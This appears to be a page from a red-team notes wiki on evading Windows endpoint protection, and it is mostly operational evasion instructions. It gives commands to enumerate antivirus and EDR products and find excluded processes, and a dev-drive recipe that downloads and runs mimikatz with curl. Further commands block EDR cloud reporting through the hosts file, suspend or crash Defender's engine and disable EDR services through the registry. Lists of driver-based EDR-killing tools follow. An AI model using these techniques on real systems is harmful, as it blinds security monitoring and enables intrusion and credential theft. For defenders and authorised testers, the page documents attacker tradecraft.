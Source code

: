 ```yaml
---
title: Windows Evasion
---
```


[[notes/mitre-attack/defense-evasion]] tricks for [[notes/windows/index]].

List installed endpoint protection solutions.

=== "builtin"
    ~~~ bat
    wmic.exe /node:localhost /namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get DisplayName
    ~~~

Detect installed endpoint protections by enumerating known named pipes and services remotely as unprivileged user.

=== "[[notes/tools/servicedetector]]"
    ~~~ bash
    servicedetector -k -no-pass ws01.corp.local
    ~~~

=== "[[notes/tools/crackmapexec]]"
    ~~~ bash
    crackmapexec smb ws01.corp.local -u jdoe -p 'passw0rd' -M enum_av
    ~~~

    [source](https://twitter.com/mpgn_x64/status/1628720939532750849)

Find excluded processes by checking if they have the userland hooking DLL of the endpoint protection loaded with [CheckDLLs.ps1](https://gist.github.com/dadevel/e89e7089a2e01446caf22bbef6738e94).
An alternate tool for this is [Bin-Finder](https://github.com/Kudaes/Bin-Finder).

~~~ powershell
Import-Module ./CheckDLLs.ps1
Get-Process | Check-DLLs -ModuleNames 'InProcessClient.dll', 'InProcessClient64.dll', 'MinProcessClient.dll', 'MinProcessClient64.dll' | ?{!$_.'InProcessClient.dll' -and !$_.'InProcessClient64.dll'} | ft -auto
~~~

Create a dev drive as local admin on Windows 11 (untested, [source](https://twitter.com/0gtweet/status/1720532496847167784)).

~~~ bat
fsutil.exe devdrv enable
fsutil.exe devdrv enable /disallowav
echo create vdisk file="c:\temp\mimi.vhdx" maximum=10240 type=expandable >> .\diskpart.txt
echo select vdisk file="c:\temp\mimi.vhdx" >> .\diskpart.txt
echo attach vdisk >> .\diskpart.txt
echo create partition primary >> .\diskpart.txt
echo assign letter=v >> .\diskpart.txt
echo exit >> .\diskpart.txt
diskpart.exe /s .\diskpart.txt
del .\diskpart.txt
format.exe v: /devdrv /q /y
fsutil.exe devdrv clearFiltersAllowed v:
fsutil.exe devdrv trust v:
fsutil.exe devdrv query v:
curl.exe -o v:\mimi.exe https://.../mimikatz.exe
v:\mimi.exe
~~~

You can disable system event log as local admin by opening `perfmon.exe`, selecting *Data Collector Sets/Event Trace Sessions/EventLog-System*, right click and hit *Stop* ([source](https://twitter.com/0gtweet/status/1755849963605561419)).

Untested tools:

- [TimeException](https://github.com/bananabr/TimeException), detect excluded folders trough timing discrepancies
- [Forensia](https://github.com/PaulNorman01/Forensia), purge various forensic artifacts

References:

- [Event Log Manipulations - Time slipping](http://web.archive.org/web/20240118072246/https://scribe.rip/@mthcht/event-log-manipulations-1-time-slipping-55bf95631c40), as local admin change system time into future, some EDRs and SIEMs won't generate alerts anymore
- [Red Teaming in the EDR age - Wild West Hackin' Fest 2018](https://www.youtube.com/watch?v=l8nkXCOYQC4)
- [docs.google.com/spreadsheets/u/0/d/1ZMFrD6F6tvPtf_8McC-kWrNBBec_6Si3NW6AoWf3Kbg/htmlview](https://docs.google.com/spreadsheets/u/0/d/1ZMFrD6F6tvPtf_8McC-kWrNBBec_6Si3NW6AoWf3Kbg/htmlview), telemetry sources of common EDRs
- [twitter.com/Cyb3rMonk/status/1648743976407531525](https://twitter.com/Cyb3rMonk/status/1648743976407531525), EDRs cant log every event due to shear volume
- [twitter.com/cyb3rops/status/1709583944763556108](https://twitter.com/cyb3rops/status/1709583944763556108), `C:\ProgramData\Microsoft\Windows Defender Advanced Threat Protection` is often excluded, because Microsoft stores shady scripts there
- [Microsoft Anti-Virus exclusion recommendations by application](http://web.archive.org/web/20230101000458/https://social.technet.microsoft.com/wiki/contents/articles/953.microsoft-anti-virus-exclusion-list.aspx)

# Blinding EDRs

Stop the EDR from reporting to its cloud API as local admin ([source](https://twitter.com/Z3rO_C00L/status/1570837519453007872)).

~~~ bat
echo 0.0.0.0 api.vendor.com >> c:\windows\system32\drivers\etc\hosts
~~~

Alternatively you can block outgoing network connections for the EDR processes with the Windows firewall.

EDRs use [[notes/windows/ppl|PPL]] to prevent their processes from being stopped, but they still can be suspended ([source](http://web.archive.org/web/20230325071705/https://www.trustedsec.com/blog/disabling-av-with-process-suspension/)).
Most AVs and EDRs block this attack with their kernel callbacks.
For example with [pssuspend](https://learn.microsoft.com/en-us/sysinternals/downloads/pssuspend) from SysInternals or [sus.ps1](https://github.com/0xv1n/proc-suspend/blob/main/sus.ps1) ([source](https://twitter.com/0gtweet/status/1638069413717975046)).

~~~ bat
.\pssuspend.exe msmpeng.exe
~~~

Writing the following registry value causes the target process to crash shortly after startup ([source](https://web.archive.org/web/20230507150230/https://www.trendmicro.com/en_us/research/23/e/attack-on-security-titans-earth-longzhi-returns-with-new-tricks.html)).
This is blocked by most AVs and EDRs.

~~~
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\MsMpEng.exe\MinimumStackCommitInBytes = 0x88888888
~~~

Disable EDR services trough registry export and reimport ([source](https://twitter.com/0gtweet/status/1684907177117454336)).
This works against some AVs and maybe even against some EDRs.

- open `regedit.exe` as administrator
- export `HKLM\SYSTEM\CurrentControlSet` to a `.save` file (not `.reg`)
- note executable names of EDR services and drivers
- edit the `.save` file with a hex editor (e.g. [HxD](https://mh-nexus.de/en/downloads.php?product=HxD20)) and replace a character in the executable path of all EDR services
- create the key `HKLM\SYSTEM\ControlSet002`
- import the `.save` file under that key
- set the following values under `HKLM\SYSTEM\Select`
    - `Current` = `2`
    - `Default` = `2`
    - `LastKnownGood` = `2`
- reboot

Untested tools:

- [EventLogCrasher](https://github.com/floesen/EventLogCrasher), crash event log service remotely over [[notes/network/msrpc]]
- [devcon.exe](https://learn.microsoft.com/en-us/windows-hardware/drivers/devtest/devcon-disable) can disable kernel drivers somehow?
- [KDU](https://github.com/hfiref0x/KDU), exploit various vulnerable drivers to hijack protected processes or load unsigned drivers
- [OffensivePH](https://github.com/RedSection/OffensivePH), uses old Process Hacker driver to inject shellcode into PPL processes
- [TokenUniverse](https://github.com/diversenok/TokenUniverse), GUI to tamper with Windows tokens and many other objects
- [NerfToken-Go](https://github.com/tnpitsecurity/nerftoken-go), modify process tokens of [[notes/windows/ppl|PPL]] processes to remove their privileges as system ([source](https://www.elastic.co/security-labs/sandboxing-antimalware-products)), patched in Windows 11 22H2 ([source](https://twitter.com/yarden_shafir/status/1628049645896183809))
- [Kernel-Cactus](https://github.com/spikysabra/kernel-cactus), didn't compile
- [RIPPL](https://github.com/last-byte/rippl/), uses technique from [PPLdump](https://github.com/itm4n/PPLdump) to tamper with protected processes, patched since Windows 10 21H2 Build 19044.1826 ([source](https://itm4n.github.io/the-end-of-ppldump/)), but EDR tamper methods like pausing instead of killing EDR processes are still interesting

References:

- [Old certificate, new signature: Open-source tools forge signature timestamps on Windows drivers](http://web.archive.org/web/20230712010119/https://blog.talosintelligence.com/old-certificate-new-signature/)
- [Attacking an EDR - Part 2](http://web.archive.org/web/20230914130817/https://her0ness.github.io/2023-09-14-Attacking-an-EDR-Part-2/), disable EDRs tamper protection by intercepting an API response with Burp
- [Reverse Engineering Windows Defender's Antivirus Emulator - Black Hat 2018](https://www.youtube.com/watch?v=wDNQ-8aWLO0)
- [Attacking an EDR - Part 1](http://web.archive.org/web/20230804174921/https://riccardoancarani.github.io/2023-08-03-attacking-an-edr-part-1/), EDR whitelisted own helper process, but did not protect it, detected because process didn't had the EDRs hooking DLL loaded, exploited with PPID spoofing
- [Dissecting the Windows Defender Driver - WdFilter (Part 1)](http://web.archive.org/web/20230204015856/https://n4r1b.com/posts/2020/01/dissecting-the-windows-defender-driver-wdfilter-part-1/)
- [Attacking on Behalf of Defense: DLL Sideloading EDR Binaries](http://web.archive.org/web/20230627204035/https://mansk1es.gitbook.io/edr-binary-abuse/)
- [Operators, EDR Sensors, and OODA Loops](http://web.archive.org/web/20230802194355/https://jackson_t.gitlab.io/ooda-loops.html)
- [Bypass Protected Process Light using Process Explorer](http://web.archive.org/web/20230101000147/https://waawaa.github.io/en/Bypass-PPL-Using-Process-Explorer/)
- [Bypass PPL from user-mode using a vulnerable driver](https://www.unknowncheats.me/forum/anti-cheat-bypass/262766-bypass-ppl-protected-process-light-user-mode-using-vulnerable-driver.html)

# EDR Kernel Unhooking

Evade EDRs by loading a signed but dangerous dangerous driver to tamper with kernel callbacks.

Tested tools:

- [EDRSandblast-GodFault](https://github.com/gabriellandau/EDRSandblast-GodFault), removes kernel hooks without a kernel driver trough [GodFault](https://github.com/gabriellandau/PPLFault#godfault) ([source](http://web.archive.org/web/20230901211135/https://www.elastic.co/security-labs/forget-vulnerable-drivers-admin-is-all-you-need)), patched since February 2024 ([source](https://twitter.com/GabrielLandau/status/1757818200127946922))
- [EDRSandblast](https://github.com/wavestone-cdt/edrsandblast/tree/defcon30release), uses `RTCore64.sys` or `DBUtils_2_3.sys`, pain to setup, but works well
- [CheekyBlinder](https://github.com/br-sn/cheekyblinder), less features then EDRSandblast

Untested tools:

- [EDRSnowblast](https://github.com/Orange-Cyberdefense/EDRSnowblast), based on EDRSandblast, supports `GDRV.sys`, can load unsigned drivers, can block communication between minifilter driver and userland ([source](http://web.archive.org/web/20231001131310/https://sensepost.com/blog/2023/filter-mute-operation-investigating-edr-internal-communication/))
- [EchoDrv](https://github.com/YOLOP0wn/EchoDrv), remove kernel hooks trough `echo_driver.sys`

References:

- [Silencing the EDR - How to disable process, threads and image-loading detection callbacks](http://web.archive.org/web/20221111123625/https://www.matteomalvica.com/blog/2020/07/15/silencing-the-edr/)
- [Driver-based attacks: Past and present](http://web.archive.org/web/20230101000144/https://www.rapid7.com/blog/post/2021/12/13/driver-based-attacks-past-and-present/)
- [Removing kernel callbacks using signed drivers](http://web.archive.org/web/20221002160329/https://br-sn.github.io/Removing-Kernel-Callbacks-Using-Signed-Drivers/)

# Killing EDRs

Tested tools:

- [TrueSightKiller](https://github.com/MaorSabag/TrueSightKiller), in C++, uses `truesight.sys`, not blocked by HVCI
- [Terminator](https://github.com/ZeroMemoryEx/Terminator), uses `zam64.sys` to kill processes
- [Backstab](https://github.com/yaxser/backstab), uses Process Explorer driver, worked only partially
- [Breakcyserver](https://github.com/waawaa/breakcyserver), uses Process Explorer driver, didn't work

Untested tools:

- [s4killer](https://github.com/enkomio/s4killer), in Rust, uses `probmon.sys`
- [rusty_drivers](https://github.com/dxxzero/rusty_drivers), in Rust, supports drivers from Process Explorer, Genshin Impact, `rentdrv2.sys` and `truesight.sys`
- [GhostDriver](https://github.com/BlackSnufkin/GhostDriver), in Rust, uses `rentdrv.sys`
- [LOLDrivers Finder](https://github.com/xalicex/LOLDrivers_finder/blob/main/finder.py), search LolDrivers for drivers that can kill processes
- [mhydeath](https://github.com/zer0condition/mhydeath), uses `mhyprotect.sys`
- [NVDrv](https://github.com/zer0condition/NVDrv), uses `nvoclock.sys` to read arbitrary memory
- [Ryzen Master Exploit](https://github.com/tijme/amd-ryzen-master-driver-v17-exploit/), BOF for exploiting AMD's Ryzen Master Driver v17
- [Killers](https://github.com/xalicex/Killers), uses driver from Avast or IOBit Malware Fighter
- [Blackout](https://github.com/ZeroMemoryEx/Blackout), uses GMER driver

References:

- [ThreadSleeper: Suspending Threads via GMER64 Driver](http://web.archive.org/web/20230719203839/https://www.binarydefense.com/resources/blog/threadsleeper-suspending-threads-via-gmer64-driver/), don't kill EDR processes, instead suspend all its threads
- [twitter.com/malmoeb/status/1551449530729730049](https://twitter.com/malmoeb/status/1551449530729730049), thread about vulnerable Gigabyte `gdrv.sys` driver
- [twitter.com/wdormann/status/1663741856461598724](https://twitter.com/wdormann/status/1663741856461598724), thread about GMER driver and `truesight.sys`
